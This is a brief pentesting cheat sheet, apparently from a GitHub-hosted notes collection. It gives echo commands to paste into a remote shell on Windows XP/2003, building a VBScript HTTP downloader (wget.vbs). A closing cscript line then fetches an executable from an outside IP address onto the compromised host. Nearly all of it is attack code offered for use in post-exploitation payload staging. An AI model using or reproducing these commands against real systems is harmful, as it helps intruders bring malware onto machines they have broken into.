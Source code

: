 # wget VBScript

## Overview

* Works with Windows XP, 2003

## Script

* first, paste each line into remote shell
* then, a vbscript will be created that acts as a simple HTTP downloader
* [https://gist.github.com/sckalath/ec7af6a1786e3de6c309](https://gist.github.com/sckalath/ec7af6a1786e3de6c309)

```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs

#A fter you've created wget.vbs
cscript wget.vbs http://192.168.10.5/remotepath_test.exe localpath_test.exe
```
